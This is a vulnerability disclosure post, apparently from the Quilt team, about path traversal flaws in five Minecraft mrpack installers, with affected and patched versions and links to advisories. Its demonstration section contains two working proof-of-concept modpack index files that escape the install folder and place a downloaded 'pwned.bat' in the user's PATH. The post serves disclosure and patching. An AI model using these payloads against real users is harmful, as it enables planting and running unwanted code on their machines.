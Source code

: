 ```yaml
---
title: "Five vulnerabilities found in mrpack installer implementations"
date: 2023-02-04 17:00:00 -00:00
authors:
  - Ambre Bertucci
layout: /src/layouts/Post.astro
---
```


On Tuesday, 31st January, a member of the Quilt team discovered path traversal vulnerabilities in five different mrpack
implementations, affecting MultiMC, PolyMC, Prism Launcher, ATLauncher and mrpack-install.

This article serves as a write-up for the vulnerabilities, and the affected versions.

<!-- MORE -->

# Affected software

Below you can find a table detailing the affected and patched versions for each piece of software.

| Software       | Affected versions | Patched versions |
|----------------|-------------------|------------------|
| MultiMC        | <= 0.6.16         | >= 0.7.0         |
| PolyMC         | <= 1.4.3          | >= 5.0           |
| Prism Launcher | <= 6.1            | >= 6.2 ¹         |
| ATLauncher     | <= 3.4.26.0       | >= 3.4.27.0      |
| mrpack-install | <= 0.16.2         | >= 0.16.3        |

¹: version 6.2 of Prism Launcher contains a critical bug, we recommend installing 6.3.

We recommend every user to upgrade to a patched version. If you can't, we recommend you to inspect any mrpack before
installation.

# Vulnerability details

[mrpack](https://docs.modrinth.com/docs/modpacks/format_definition/) is a modpack format popularized by the [Modrinth®](https://modrinth.com)
mod sharing platform.

It allows modpack creators to define a [`files`](https://docs.modrinth.com/docs/modpacks/format_definition/#files) array
to download various files, such as mods, during modpack installation. This can be open to path traversals by using
an absolute path (if the implementation allows it) or relative directories (`/../`) to escape the installation
folder and install a file in any directory the process has access to.

# Attack vector

While we recognize installing a modpack requires trust into the modpack maker once the modpack is run, we're of the
opinion that installing a modpack shouldn't require trust. One scenario can also be imagined where one would install
a suspicious modpack for checking its content, leading to infection in the process.

Modrinth® confirmed they have checks in place preventing such a modpack from being installed, although this
vulnerability still affects modpacks installed off-site.

# Demonstration

Below you can find some example `modrinth.index.json` files that once put into a mrpack would install a `pwned` binary
inside the user PATH. They assume the relevant tool is installed at the default location, except for `mrpack-install`
which will depend on the execution location.

## MultiMC, PolyMC, Prism Launcher, mrpack-install

```json
{
  "formatVersion": 1,
  "game": "minecraft",
  "versionId": "exploit-demo",
  "name": "Exploit demo",
  "files": [
    {
      "path": "..\\..\\..\\..\\..\\..\\..\\AppData\\Local\\Microsoft\\WindowsApps\\pwned.bat",
      "hashes": {
        "sha1": "f2f2afa63f7c46d966b460c6efa85505ec8e7d26",
        "sha512": "88b0dfed128d1b1dac86ef825fad577bd2fe99d79a8eb73a826a6634e6d2edadfe2fd50aa69b1009c38c7f4d1bbdd7199e2425cf3035515a794646474b3b28e8"
      },
      "env": {
        "client": "required",
        "server": "required"
      },
      "downloads": [
        "https://raw.githubusercontent.com/Akarys42/pwned/main/pwned.bat"
      ],
      "fileSize": 200
    }
  ],
  "dependencies": {
    "minecraft": "1.18.2"
  }
}
```

## ATLauncher

```json
{
  "formatVersion": 1,
  "game": "minecraft",
  "versionId": "exploit-demo",
  "name": "Exploit demo",
  "files": [
    {
      "path": "../../../../Local/Microsoft/WindowsApps/pwned.bat",
      "hashes": {
        "sha1": "f2f2afa63f7c46d966b460c6efa85505ec8e7d26",
        "sha512": "88b0dfed128d1b1dac86ef825fad577bd2fe99d79a8eb73a826a6634e6d2edadfe2fd50aa69b1009c38c7f4d1bbdd7199e2425cf3035515a794646474b3b28e8"
      },
      "env": {
        "client": "required",
        "server": "required"
      },
      "downloads": [
        "https://raw.githubusercontent.com/Akarys42/pwned/main/pwned.bat"
      ],
      "fileSize": 200
    }
  ],
  "dependencies": {
    "minecraft": "1.18.2"
  }
}
```

# Advisories

* MultiMC: none
* PolyMC: [GHSA-3rfr-g9g9-7gx2](https://github.com/PolyMC/PolyMC/security/advisories/GHSA-3rfr-g9g9-7gx2)
* Prism Launcher: [GHSA-wxgx-8v36-mj2m](https://github.com/PrismLauncher/PrismLauncher/security/advisories/GHSA-wxgx-8v36-mj2m)
* ATLauncher: [GHSA-7cff-8xv4-mvx6](https://github.com/ATLauncher/ATLauncher/security/advisories/GHSA-7cff-8xv4-mvx6)
* mrpack-install: [GHSA-r887-gfxh-m9rr](https://github.com/nothub/mrpack-install/security/advisories/GHSA-r887-gfxh-m9rr)

# CVE entries

At the time of publishing this article, CVE assignment is still pending.

# Credits

Vulnerability found and blog post written by Ambre Bertucci (Akarys)

Research inspired by Silver
